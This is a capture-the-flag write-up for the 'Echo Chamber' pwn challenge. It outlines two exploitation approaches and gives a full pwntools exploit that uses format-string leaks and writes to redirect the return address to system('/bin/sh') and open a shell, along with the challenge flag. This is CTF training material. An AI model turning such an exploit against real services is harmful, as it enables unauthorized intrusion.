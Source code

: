 # P.W.N. CTF

## _Echo Chamber_

## Information

**Category:** | **Points:** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 552 | 8 | merrychap

**Description:** 

> Echo chambers are a thing nowadays. Flag in /opt.

`nc echochamber.uni.hctf.fun 13374 `


## TLDR Solution

[echo_chamber](./echo_chamber)

[libc.so.6](./libc.so.6)

[ld-linux.so.2](./ld-linux.so.2)


There were basically two different approaches to exploit the binary (at least, I found two of them).

1. The first one: Produce a double free attack in the echo loop using format string bug. After this, still in the echo loop, manage the `malloc` to allocate in the same chunk that was freed earlier. Quit from the echo loop and produce fastbin attack, allocating in `__free_hook`, writing `one_gadget` address there.

2. The second one: In the echo loop, use stack address chains to be able to write anywhere in the memory. Then just overwrite RET with the `system` address and RET+8 with the `/bin/sh` address in the given libc.

I decided to implement the second one exploit. The first one I found after the CTF ended.

```python
from time import sleep

from pwn import *


def main():    
    libc = ELF('./libc.so.6')
    # pc = process(['./ld-linux.so.2', './echo_chamber'], env={'LD_PRELOAD': './libc.so.6'})

    pc = remote('echochamber.uni.hctf.fun', 13374)

    raw_input()

    pc.recvline()

    pc.sendline('%1$x')
    stack = int(pc.recv(10), 16) - 40
    print 'stack @ ' + hex(stack)

    pc.sendline('%5$x')
    text_base = int(pc.recv(10), 16) - 0x2029
    print 'text_base @ ' + hex(text_base)

    # 10 is an offset for buffer
    pc.sendline('%10$x')
    heap_base = int(pc.recv(10), 16) - 0x240
    print 'heap_base @ ' + hex(heap_base)

    pc.sendline('%19$x')
    libc_base = int(pc.recv(10), 16) - 241 - libc.symbols['__libc_start_main']
    print 'libc_base @ ' + hex(libc_base)
    print 

    print '1. become ' + hex((stack + 56) & 0xffff)
    print '2. become ' + hex((stack + 98) & 0xffff)

    target1 = libc_base + libc.symbols['system']
    target2 = libc_base + list(libc.search('/bin/sh'))[0]

    pc.sendline('A' * 32)

    # 61 is the offset for the server, but
    # 62 is for the local exploitation
    pc.sendline('%{}x%25$hn'.format((stack + 56) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 98) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) >> 16))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92 + 2) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) >> 16))

    pc.sendline('%{}x%61$hn'.format((stack + 100) & 0xffff))
    pc.sendline('%{}x%14$hn'.format(target2 & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 100+2) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((target2 >> 16) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))

    pc.sendline('q')

    pc.sendlineafter('Was it fun?', 'A')
    pc.sendlineafter('Would you echo again?', 'A')

    pc.interactive()


if __name__ == '__main__':
    main()
```

> flag{something_with_tcache_ga48ghydgja}